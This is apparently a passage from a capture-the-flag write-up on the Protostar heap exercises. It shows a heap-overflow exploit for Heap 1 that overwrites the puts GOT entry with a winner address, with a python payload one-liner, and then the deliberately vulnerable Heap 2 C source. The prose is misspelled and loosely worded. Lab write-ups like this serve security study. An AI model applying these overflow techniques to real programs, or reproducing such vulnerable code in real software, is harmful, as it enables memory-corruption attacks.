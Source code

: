 try run without input in gdb we got segmentation fault because strcpy from address source=0x

pass long arguments `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ aaaabbbbccccddddeeeeffff`

we somehow overwite the destination address=**FFFF** i2->name

now we could replace it with GOTaddress,`jmp *GOTaddress`from calling puts->write with printf(). `$ 
disassable <puts@plt>_address`

after that we will cotrol eip with value aaaa which we write it insted of GOTaddress

now we done by replacing **aaaa** with winner address, `print winner` in gdb or by `obidumb -t heap1`

```sh
`python -c 'print "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"+" \x94\x84\x04\x08"'`
```

## Heap 2

```c
struct auth {
  char name[32];
  int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv)
{
  char line[128];

  while(1) {
    printf("[ auth = %p, service = %p ]\n", auth, service);

    if(fgets(line, sizeof(line), stdin) == NULL) break;
    
    if(strncmp(line, "auth ", 5) == 0) {
      auth = malloc(sizeof(auth));
      memset(auth, 0, sizeof(auth));
      if(strlen(line + 5) < 31) {
        strcpy(auth->name, line + 5);
      }
    }
    if(strncmp(line, "reset", 5) == 0) {
      free(auth);
    }
    if(strncmp(line, "service", 6) == 0) {
      service = strdup(line + 7);
    }
    if(strncmp(line, "login", 5) == 0) {
      if(auth->auth) {
        printf("you have logged in already!\n");
      } else {
        printf("please enter your password\n");
      }
    }
  }
}
```
